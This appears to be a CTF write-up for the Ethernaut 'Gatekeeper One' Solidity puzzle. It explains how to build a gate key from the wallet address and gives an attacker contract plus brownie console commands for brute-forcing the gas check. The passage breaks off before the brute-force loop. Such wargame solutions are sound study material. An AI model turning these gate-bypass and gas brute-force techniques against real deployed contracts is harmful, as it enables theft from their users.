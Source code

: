 For the first check in `gateThree`, we need to make sure our key is the same value in both uint32 and uint16. This means that our key's last 4 bytes should be `0000XXXX` since  `0xXXXX` and `0x0000XXXX` are the same value.
>Note that the initial uint64 conversions are necessary because explicit conversions from fixed size bytes to uint must remain the same size. A 64 bit uint is 8 bytes. 

For the second check, we need the uint32 cast of our key to NOT equal the uint64 cast. That's easy - just make any of the leading 4 bytes nonzero. For example, `0x10000000XXXXXXXX`. Combine with the first check in `gateThree` and you get `0x100000000000XXXX`.

For the third check, we need the uint32 cast of our key to equal the uint16 cast of our wallet address (uint160 is the conversion of our 20 byte wallet address to uint). My wallet's last 2 bytes are 8e11, so my key will be `0x1000000000008e11`.

The contract I'm using:

    // SPDX-License-Identifier: MIT

    pragma solidity ^0.8.0;

    interface IGatekeeperOne {
        function enter(bytes8 _gateKey) external returns (bool);
    }

    contract GK1Attacker {

        IGatekeeperOne public immutable instance;
        bool public success;

        constructor(address _instance) {
            instance = IGatekeeperOne(_instance);
        }

        function execute(bytes8 key, uint256 gasToUse) external {
            instance.enter{gas: gasToUse}(key);          
        }

        function check(bytes8 _gateKey) external {
            require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
            require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
            require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
            success = true;
        }
    }

The `check` function is included so you can be sure you're going to pass `gateThree` before you waste time brute forcing the gas.

To brute force the gas check for `gateTwo`, we're just going to iterate through all possible options starting at 800,000 and ending at 800,000 + 8191. 

In the brownie console:

    attacker = GK1Attacker.deploy(instance,{'from': player})
    myKey = '0x1000000000008e11' #replace last 4 digits with last 4 of your wallet address
    myKey = bytes.fromhex(myKey[2:]) #convert string to bytes (slice off the 0x)
